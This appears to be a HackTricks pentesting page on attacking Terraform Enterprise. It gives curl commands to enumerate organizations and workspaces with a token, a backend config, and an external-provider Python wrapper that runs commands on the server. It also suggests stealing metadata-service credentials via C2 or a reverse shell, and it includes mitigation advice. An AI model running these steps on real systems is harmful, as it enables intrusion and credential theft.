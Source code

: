 # Terraform Enterprise Security

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

****[**Terraform Enterprise**](https://www.terraform.io/enterprise) **is a self-hosted version of Terraform Cloud**, allowing organizations to maintain their own private instance of Terraform. If it's **deployed** to a **VM** from a **cloud** provider we may be able to access the **instance metadata** service and leverage those credentials for further attacks.

"By default, Terraform Enterprise **does not prevent Terraform operations from accessing the instance metadata service**, which may contain IAM credentials or other sensitive data" ([source](https://www.terraform.io/enterprise/system-overview/security-model#restrict-terraform-build-worker-metadata-access))

{% hint style="info" %}
While the focus of this article is on targeting the metadata service, it is worth noting that gaining code execution inside a Terraform run may provide other avenues for attack. For example, environment variables could be leaked which may contain sensitive credentials.
{% endhint %}

## Remote (Code) Execution <a href="#remote-code-execution" id="remote-code-execution"></a>

For many engineers, their first experience with Terraform was locally on their workstations. When they invoked a `terraform apply` or `terraform plan` all of that activity took place on the local machine (reaching out to cloud APIs, tracking state, etc.)

An exciting feature of Terraform Enterprise (and Cloud) is the idea of [**Remote Execution**](https://www.terraform.io/cloud-docs/overview#remote-terraform-execution), wherein all those **operations take place server-side**. In **Terraform Cloud the execution takes place in "disposable virtual machines"**. In [**Terraform Enterprise**](https://www.terraform.io/enterprise/install/interactive/installer#alternative-terraform-worker-image) **however, it takes place in "disposable Docker containers".**

This introduces an interesting opportunity; If you compromise credentials to initiate a `plan` or `apply` operation (or otherwise have access to them. I.E insider threat) we can **execute code in a Docker container on the Terraform Enterprise server**.

{% hint style="info" %}
It is possible to disable Remote Execution via a configuration however this is [discouraged](https://www.terraform.io/cloud-docs/run#disabling-remote-operations). "Many of Terraform Cloud's features rely on remote execution, and are not available when using local operations. This includes features like Sentinel policy enforcement, cost estimation, and notifications."
{% endhint %}

### Walkthrough <a href="#walkthrough" id="walkthrough"></a>

#### Acquire a Terraform API Token <a href="#acquire-a-terraform-api-token" id="acquire-a-terraform-api-token"></a>

To begin, you'll first need to 'acquire' a [Terraform API Token](https://www.terraform.io/cloud-docs/users-teams-organizations/api-tokens). These **tokens** can be identified by the **`.atlasv1.` substring** in them.

As for where you would get one, there are a number of possible locations. For example, developer's may have them locally on their **workstations** in `~/.terraform.d/`, you may find them in CI/CD **pipelines**, inappropriately stored in **documentation**, pull them from a secrets vault, create one with a developer's stolen credentials, etc.

#### Identify the Organization and Workspace Names <a href="#identify-the-organization-and-workspace-names" id="identify-the-organization-and-workspace-names"></a>

With access to a valid API token, we now need to **find an Organization and Workspace** we can use to be nefarious. The good news is that this information is queryable using the token. We can use a tool such as [jq](https://stedolan.github.io/jq/) to parse and display the JSON.

```bash
curl -H "Authorization: Bearer $TFE_TOKEN" https://<TFE Instance>/api/v2/organizations | jq
```

![](<../../.gitbook/assets/image (77).png>)

Next, we need to identify a [workspace](https://www.terraform.io/cloud-docs/api-docs/workspaces) we can use. Again, this can be quereyed using the organization `id` we gathered in the previous step.

```bash
curl -H "Authorization: Bearer $TFE_TOKEN" https://<TFE Instance>/api/v2/organizations/<Organization ID>/workspaces | jq
```

![](<../../.gitbook/assets/image (11) (1).png>)

#### Configure the Remote Backend <a href="#configure-the-remote-backend" id="configure-the-remote-backend"></a>

Now that we have the organization and workspace id's from the previous step, we can **configure the remote backend**. To do this, you can use [this example](https://github.com/hashicorp/tfc-getting-started/blob/main/backend.tf) as a template with one exception. We will **add a `hostname`** value which is the hostname of the Terraform Enterprise instance. You can store this in a file named `backend_config.tf`.

{% code title="backend_config.tf" %}
```json
terraform {
  backend "remote" {
    hostname = "{{TFE_HOSTNAME}}"
    organization = "{{ORGANIZATION_NAME}}"

    workspaces {
      name = "{{WORKSPACE_NAME}}"
    }
  }
}
```
{% endcode %}

#### Initialize the Backend <a href="#initialize-the-backend" id="initialize-the-backend"></a>

With the backend configuration file created we can initialize the backend with the following command.

```bash
terraform init --backend-config="token=$TFE_TOKEN"
```

If everything has worked as it should, you should get a `Terraform has been successfully initialized` notification. To test this, you can perform a `terraform state list` to list the various state objects.

#### Executing Code <a href="#executing-code" id="executing-code"></a>

There are several ways this can be done (such as using a [local-exec provisioner](https://www.terraform.io/language/resources/provisioners/local-exec)) however, for our purposes we will be using the [External Provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs).

"_`external` is a special provider that exists to provide an interface between Terraform and external programs_".

What this means is that we can **execute code during the Terraform `plan`** or `apply` operations by specifying a program or script to run.

To do this, we will create an `external provider` in our existing `backend_config.tf` file (if you already have an existing Terraform project you can add this block to those existing files).

{% code title="backend_config.tf" %}
```bash
...

data "external" "external_provider" {
    program = ["python3", "wrapper.py"]
}

output "external_provider_example" {
    value = data.external.external_provider
}
```
{% endcode %}

You may be wondering what the `wrapper.py` file is. In order to use the `external` provider, we must "implement a specific protocol" ([source](https://registry.terraform.io/providers/hashicorp/external/latest/docs)), which is JSON. To do this, we will wrap the result of the code execution in JSON so it can be returned.

{% hint style="info" %}
The wrapper script is not strictly required if you aren't interested in getting the output. If your goal is simply to execute a C2 payload, you can include the binary in the project directory and then execute it.

Check for [**more payloads here**](./#using-an-external-provider).
{% endhint %}

Wrapping the output in JSON allows us to get the **response output**.

Our wrapper script looks like the following (feel free to change to your needs).

{% code title="wrapper.py" %}
```python
import json
import os

stream = os.popen('id')
output = stream.read()
result = { "result" : output }

print(json.dumps(result))
```
{% endcode %}

#### Terraform Plan <a href="#terraform-plan" id="terraform-plan"></a>

Now that the wrapper script is created (and modified), we can execute code via **`terraform plan`**. This is a **non-destructive action**, which will evaluate our local configuration vs's the remote state. In addition, it will **execute our remote provider and return the result to us**.

![](<../../.gitbook/assets/image (58).png>)

{% hint style="warning" %}
Upon executing `terraform plan` you may encounter errors for various reasons depending upon the remote state. Those errors will need to be handled on a case by case basis. Typically this involves modifying your `.tf` files to suit the remote state. This can typically be figured out based on the results of `terraform state pull`.

From here, we can modify our wrapper script to do a variety of things such as (the purpose of this article) reaching out to the metadata service and pulling those credentials.
{% endhint %}

{% hint style="info" %}
The results of this run are logged elsewhere. Please do not leak secrets or other sensitive information to parties who do not have a need for the information. A more efficient method would be to use a C2 platform such as [Mythic](https://docs.mythic-c2.net/) (or even just a TLS encrypted reverse shell) to exfiltrate the credentials.
{% endhint %}

## Attack Prevention <a href="#attack-prevention" id="attack-prevention"></a>

It is worth noting that there are two potential methods to mitigate this attack. The first is the configuration of [restrict\_worker\_metadata\_access](https://www.terraform.io/enterprise/system-overview/security-model#restrict-terraform-build-worker-metadata-access) in the Terraform Enterprise settings. This is **not** the default, meaning that out of the box Terraform operations have access to the metadata service and its credentials.

The second option would depend upon the cloud provider, but options to harden or secure the Metadata Service can also be used. For example, [IMDSv2](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/configuring-instance-metadata-service.html) in an AWS situation would prevent the [Docker container from reaching the Metadata Service](https://hackingthe.cloud/aws/general-knowledge/intro\_metadata\_service/).

Note

Nothing should prevent these two methods from working at the same time. It is a good idea to require IMDSv2 of all EC2 instances in your environment.

## References

* [https://hackingthe.cloud/terraform/terraform\_enterprise\_metadata\_service/](https://hackingthe.cloud/terraform/terraform\_enterprise\_metadata\_service/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
